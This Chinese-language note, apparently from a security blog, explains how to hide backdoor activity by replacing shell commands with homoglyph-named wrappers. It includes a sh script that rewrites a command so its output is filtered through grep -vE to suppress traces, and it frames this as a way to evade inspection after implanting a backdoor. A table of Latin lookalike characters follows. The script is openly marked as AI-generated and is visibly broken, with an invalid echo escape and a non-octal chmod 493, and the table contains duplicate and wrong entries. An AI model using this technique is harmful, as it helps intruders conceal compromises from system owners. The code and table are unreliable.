 # Shell同形异义字取代命令

在做安全植入后门的时候经常遇到Shell当中经常有替换命令并且不让进程查到的需求，使用下面的同形异义字去替换真实命令就查不到了，给输出的内容进行删除。

可以躲过检查。

## 脚本

```bash
#!/bin/sh

# 设置特殊字符
s=$(echo -e "\x{455}")
n=$(echo -e "\x{578}")

# 备份原始命令到变量$o中
o="$1"
shift

# 修改命令内容并写入文件$o
echo "#!/bin/sh" > "$o"
echo "$o" | sed -e "s/\([ltp]\)s/\1$s/g" -e "s/fin/fi$n/g" >> "$o"
echo "\$* | grep -vE \"[$s-$n]|grep|177\"" >> "$o"

# 设置文件权限
chmod 493 "$o"
```

## 字符相似度测试脚本

右键下载 [unicode](./ssss)

备注：本脚本由AI生成，或许可能有错误，仅提供参考，核对后使用。



![image-20240625160021584](./Shell同形异义字取代命令.assets/image-20240625160021584.png)





## 同形异义字代码表

下面是从小写字母 'a' 到 'z' 的列表，使用Markdown格式排列

| 字符 | 同形异义字 | Unicode 编码 | Unicode字符类 |
| ---- | ---------- | ------------ | ------------- |
| a    | а          | \u0430       | 西里尔字母    |
| a    | ɑ          | \u0251       | 拉丁字母      |
| b    | Ь          | \u042c       | 西里尔字母    |
| b    | Ƅ          | \u0184       | 拉丁字母      |
| c    | ϲ          | \u03f2       | 希腊字母      |
| c    | с          | \u0441       | 西里尔字母    |
| d    | ԁ          | \u0501       | 西里尔字母    |
| d    | đ          | \u0111       | 拉丁字母      |
| e    | е          | \u0435       | 西里尔字母    |
| e    | é          | \u00e9       | 拉丁字母      |
| f    | ſ          | \u017f       | 拉丁字母      |
| f    | ƒ          | \u0192       | 拉丁字母      |
| g    | ց          | \u0581       | 亚美尼亚字母  |
| g    | ɡ          | \u0261       | 拉丁字母      |
| h    | һ          | \u04bb       | 西里尔字母    |
| h    | ħ          | \u0127       | 拉丁字母      |
| i    | і          | \u0456       | 西里尔字母    |
| i    | í          | \u00ed       | 拉丁字母      |
| j    | ј          | \u0458       | 西里尔字母    |
| j    | ʝ          | \u029d       | 拉丁字母      |
| k    | κ          | \u03ba       | 希腊字母      |
| k    | ĸ          | \u0138       | 拉丁字母      |
| l    | ℓ          | \u2113       | 拉丁字母      |
| l    | ɭ          | \u026d       | 拉丁字母      |
| m    | м          | \u043c       | 西里尔字母    |
| m    | ɱ          | \u0271       | 拉丁字母      |
| n    | ո          | \u0578       | 亚美尼亚字母  |
| n    | ŋ          | \u014b       | 拉丁字母      |
| o    | о          | \u043e       | 西里尔字母    |
| o    | ο          | \u03bf       | 希腊字母      |
| p    | р          | \u0440       | 西里尔字母    |
| p    | ρ          | \u03c1       | 希腊字母      |
| q    | ԛ          | \u051b       | 西里尔字母    |
| q    | ʠ          | \u02a0       | 拉丁字母      |
| r    | г          | \u0433       | 西里尔字母    |
| r    | ɾ          | \u027e       | 拉丁字母      |
| s    | ѕ          | \u0455       | 西里尔字母    |
| s    | ѕ          | \u0455       | 西里尔字母    |
| t    | т          | \u0442       | 西里尔字母    |
| t    | τ          | \u03c4       | 希腊字母      |
| u    | υ          | \u03c5       | 希腊字母      |
| u    | μ          | \u03bc       | 希腊字母      |
| v    | ν          | \u03bd       | 希腊字母      |
| v    | ν          | \u03bd       | 希腊字母      |
| w    | ѡ          | \u0461       | 西里尔字母    |
| w    | ŵ          | \u0175       | 拉丁字母      |
| x    | х          | \u0445       | 西里尔字母    |
| x    | χ          | \u03c7       | 希腊字母      |
| y    | у          | \u0443       | 西里尔字母    |
| y    | у          | \u0443       | 西里尔字母    |
| z    | Հ          | \u0530       | 亚美尼亚字母  |
| z    | ʑ          | \u0291       | 拉丁字母      |

